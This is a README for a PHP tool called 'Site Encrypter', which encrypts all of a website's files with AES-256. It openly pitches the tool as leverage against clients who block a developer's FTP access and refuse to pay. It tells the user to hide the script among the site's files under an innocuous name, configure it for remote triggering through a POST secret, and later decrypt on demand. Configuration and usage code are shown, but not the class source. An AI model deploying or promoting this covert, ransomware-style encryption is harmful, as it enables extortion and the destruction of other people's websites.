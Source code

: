 # Site Encrypter
Site Encrypter is a PHP Class that allows you to encrypt all files on a site.<br>
It could be useful, for example, to a young developer as a prevention in the event that the customer who requested the development of a site on one of his hosts blocks ftp access at the end of development and does not intend to pay.

## Getting Started
Upload the encrypt.php file on the server, the file can be placed anywhere within the site folders and can be renamed with any name in order to hide it among the other files.
Once the file has been uploaded, it must be configured for remote access.

## Usage
**1. Configure option**

```php
$settings = array(
    "folder" => "./",
    "cipher" => "aes-256-cbc",
    "onlyfiles" => array("php"),
    "excludefolders" => array("resource/test", "function"),
    "ext" => array(".crypt")
);
```

- `Folder`: set the main folder from which to start encrypting, default value "./" ("./" is the current folder).

- `Chiper`: the cipher to use, a list of ciphers can be obtained from openssl_get_cipher_methods() method, default value "aes-256-cbc".

- `Onlyfiles`: array of file extensions to be encrypted, default value array("php", "html", "css", "js").

- `Excludefolders`: array of folders to skip from encryption, the path is relative to the Folder settings.

- `Ext`: extension added to the file after encryption, default value ".crypt".

**2. Testing**

To test correct operation, simply run the encryption function.

```php
$secret = $_POST["top_secret_key"];
$encrypter = new Encrypter($secret, $settings);
$encrypter->encrypt("encrypt");
```

Once the function is launched, the tree of encrypted files will be printed on the screen.

**3. Encryption**

To launch the actual encryption, add the line of code `$encrypter->test(false);` before the encryption function to disable the test function.

```php
$secret = $_POST["top_secret_key"];
$encrypter = new Encrypter($secret, $settings);

$encrypter->test(false);

$encrypter->encrypt("encrypt");
```

**4. Decryption**

To decrypt the files, run the script with the same parameters used for encryption, changing only the method of the encryption function from `encrypt` to `decrypt`.

```php
$secret = $_POST["top_secret_key"];
$encrypter = new Encrypter($secret, $settings);

$encrypter->test(false);

$encrypter->encrypt("decrypt");
```

**Other option**

It is also possible to disable the printing of the file tree by inserting the function `$encrypter->echo(false);` before the function to encrypt files.

## Disclaimer
Improper use of the aforementioned script is highly discouraged, especially if used to harm other people.
The developer assumes no responsibility for the impractical use of this script.

## License
MIT